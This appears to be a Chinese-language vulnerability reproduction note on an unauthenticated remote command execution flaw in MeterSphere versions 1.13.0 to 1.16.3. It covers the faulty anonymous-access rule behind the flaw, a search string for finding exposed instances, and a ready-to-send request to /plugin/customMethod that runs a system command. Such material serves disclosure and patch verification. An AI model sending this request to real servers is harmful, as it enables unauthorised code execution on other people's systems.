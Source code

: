 # MeterSphere customMethod 远程命令执行漏洞

# MeterSphere customMethod 远程命令执行漏洞

## 漏洞描述

2022年1月5日，知道创宇404积极防御实验团队发现了MeterSphere开源持续测试平台的一处漏洞，并向MeterSphere研发团队进行了反馈。通过该漏洞攻击者可以在未授权的情况下执行远程代码，建议MeterSphere平台用户，尤其是可通过公网访问的用户尽快进行升级修复。

## 漏洞影响

```
MeterSphere v1.13.0 - v1.16.3
```

## 网络测绘

```
body="MeterSphere"
```

## 漏洞复现

登陆页面

![image-20230424163040952](images/image-20230424163040952.png)

根据官方的修复可以看到目前版本的修复版本为删除代码片段

filterChainDefinitionMap.put("/plugin/**", "anon");

```
https://github.com/metersphere/metersphere/pull/9140/files
```

![image-20230424163652968](images/image-20230424163652968.png)

查看文件 /backend/src/main/java/io/metersphere/controller/PluginController.java

![image-20230424163710253](images/image-20230424163710253.png)

发送请求包

```
POST /plugin/customMethod

{"entry":"Evil","request":"id"}
```

![image-20230424163729245](images/image-20230424163729245.png)

